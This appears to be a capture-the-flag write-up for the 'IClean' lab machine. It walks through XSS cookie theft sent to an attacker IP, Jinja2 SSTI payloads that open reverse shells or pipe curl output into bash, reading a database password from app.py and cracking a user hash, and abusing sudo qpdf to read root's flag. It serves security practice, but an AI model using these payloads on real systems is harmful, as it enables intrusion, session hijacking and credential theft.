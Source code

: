 ## IClean Linux Machine

[+] : 10.10.11.12

## Recon
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

[1] + Port 80 : http://capiclean.htb/

[+] + Gobuster :

		/login                (Status: 200) [Size: 2106]
		/about                (Status: 200) [Size: 5267]
		/services             (Status: 200) [Size: 8592]
		/team                 (Status: 200) [Size: 8109]
		/quote                (Status: 200) [Size: 2237]
		/logout               (Status: 302) [Size: 189] [--> /]
		/dashboard            (Status: 302) [Size: 189] [--> /]
		/choose               (Status: 200) [Size: 6084]

[+] + Either we brute force login with team names or we xss maybe on /choose 

```
service=<img+src%3dx+onerror%3dfetch("http%3a//10.10.14.39%3a1234/"%2bdocument.cookie)>&email=wahb%40gmail.com
```

```listener
10.10.11.12:57692 [404]: GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZjA3hA.7YkBkPIYpjTx7LxcLm8gfJniHmk - No such file or directory
```

## Foothold
[1] - After accessing the dashboard & enumerating all services , a parameter in qr code making seems to be vulnerable to some code execution after decoding the base64 401 erros from LFI tests 
Generate Invoice -> paste invoice id into GenerateQr to access the vulnerable parameter Which is qr-link
[+] + {{7*7}} shows 49 in website SSTI 

## Reverse shell
[+] + Since the webserver is running flask I assumed to use python script for reverse shell but it shows 500 internal server error

[+] + This is not working Neither
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.39 4444 >/tmp/f~')\")()}}  

[+] +  https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.39:4444/revshell | bash")|attr("read")()}} --> WORKS

[+] +  {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f”)("\x5f\x5fimport\x5f\x5f”)("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/ATTACK_IP/1234 0>&1'")|attr("read”)()}} --> works without getting file

## Consuela user

		www-data@iclean:/$ cat /var/mail/consuela
		To: <consuela@capiclean.htb>
		Subject: Issues with PDFs
		From: management <management@capiclean.htb>
		Date: Wed September 6 09:15:33 2023



		Hey Consuela,

		Have a look over the invoices, I've been receiving some weird PDFs lately.

		Regards,
		Management

				

[+] +  cat app.py

		secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
		app.secret_key = secret_key
		# Database Configuration
		db_config = {
		    'host': '127.0.0.1',
		    'user': 'iclean',
		    'password': 'pxCsmnGLckUb',
		    'database': 'capiclean'


[+] +  mysql -u iclean -p -h 127.0.0.1

		show databases;
		use consueala;
		select * from users; 
		crack consuela hash -> simple and clean 

## Privele Escalation 
[+] +  sudo -l -> qpdf

[+] +  consuela@iclean:/tmp$ sudo qpdf --empty ./root3.txt --qdf --add-attachment /root/root.txt --








